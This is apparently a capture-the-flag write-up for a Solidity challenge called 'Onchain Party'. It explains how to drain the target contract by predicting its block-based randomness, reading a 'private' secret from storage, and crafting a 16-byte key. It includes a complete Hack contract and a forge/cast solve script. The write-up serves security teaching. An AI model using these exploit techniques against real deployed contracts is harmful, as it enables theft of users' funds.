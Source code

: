 # Onchain Party

## Write-up

To solve the challenge, we need to drain the target's balance:
```solidity
function isSolved() public view returns (bool) {
    return  address(TARGET).balance == 0;
}
```
We can start by looking for any external ether transfer. After giving a quick inspection of the target contract, we may think of doing Reentrancy attack with `leaveParty` function. However, the function is protected from reentrancy by `nonReentrant` modifier.<br>

Another function is transferring ether externally:
```solidity
// is it your lucky day?
    function unlockVault(bytes16 _key) external onlyMember {
        require(uint32(bytes4(_key)) == uint32(randomize(secret)), "Hold on!");
        require(bytes8(uint64(uint128((_key << 32) >> 64))) == bytes8(uint64(uint160(msg.sender))), "Wait a minute!!");
        require(bytes4(uint32(uint128(_key))) == bytes4(abi.encodeWithSignature("unlockVault(bytes16)", bytes16("LET ME IIIIIIN"))), "Too close");

        (bool success, ) = payable(msg.sender).call{value: address(this).balance}("");
        require(success, "Something wrong happened");
}
```
We need to go over 3 obstacles:
- We need to predict the output of `randomize(secret)`: the function is using unsafe randomness. We can just call the same function on our Hack contract before making the call, the output will be the same as the calculation of the random number depends on block parameters in which both calls will be mined on the same transaction.
- We need to get the `secret` value: the state's visibility is `private`. However, we can still read the storage contains the value (it is located at storage 5).
- We need to construct 16bytes that satisfy the requirements. After analysing the bitwising happening, we conclude the following constraints on the 16-bytes key that must be sent:
    - The first 4 bytes are the return of `randomize(secret)`
    - The next 8 bytes are the last 8 bytes of the caller's address
    - The last 4 bytes are the function selector of `unlockVault(bytes16)`

#### Hack Contract
```solidity
// SPDX-License-Identifier: No-License
pragma solidity ^0.8.22;
import {OnChainParty} from "./OnChainParty.sol";
contract Hack {
    OnChainParty target;
    
    constructor(address payable _target) payable {
        require(msg.value >= 0.5 ether, "We need 0.5 ether to hack");
        target = OnChainParty(_target);
        (bool success, ) = payable(target).call{value: msg.value}("");
        require(success);
    }

    function randomize(bytes8 _secret) private view returns(bytes4) {
        return bytes4(keccak256(abi.encode(_secret, block.prevrandao, keccak256(abi.encode(block.timestamp)))));
    }

    function hack(bytes32 _secret) external {
        bytes8 secret = bytes8(uint64(uint256(_secret)));
        bytes4 part1 = randomize(secret);
        bytes8 part2 = bytes8(uint64(uint160(address(this))));
        bytes4 part3 = bytes4(abi.encodeWithSignature("unlockVault(bytes16)", bytes16("LET ME IIIIIIN")));

        bytes16 key = bytes16(bytes.concat(part1, part2, part3));

        target.unlockVault(key);
    }

    receive() external payable {}
}
```
#### Solve script
```bash
TARGET=$(cast call "$SETUP" "TARGET()(address)" --rpc-url "$RPC") 
output=$(forge create src/OnChainParty/Hack.sol:Hack --value 1ether --constructor-args "$TARGET" --rpc-url "$RPC" --private-key "$PK")

deployed_to=$(echo "$output" | grep "Deployed to" | awk '{print $3}')

secret=$(cast storage "$TARGET" 5 --rpc-url "$RPC")
cast send "$deployed_to" "hack(bytes32)" "$secret" --rpc-url "$RPC" --private-key "$PK" 

isSolved=$(cast call "$SETUP" "isSolved()(bool)" --rpc-url "$RPC")
echo "$isSolved"
// true
```
## Flag

`shellmates{$H1Ft_l3fT_$hIft_R1GHT_AND_bitw1sE_fL4g_RIS3}`
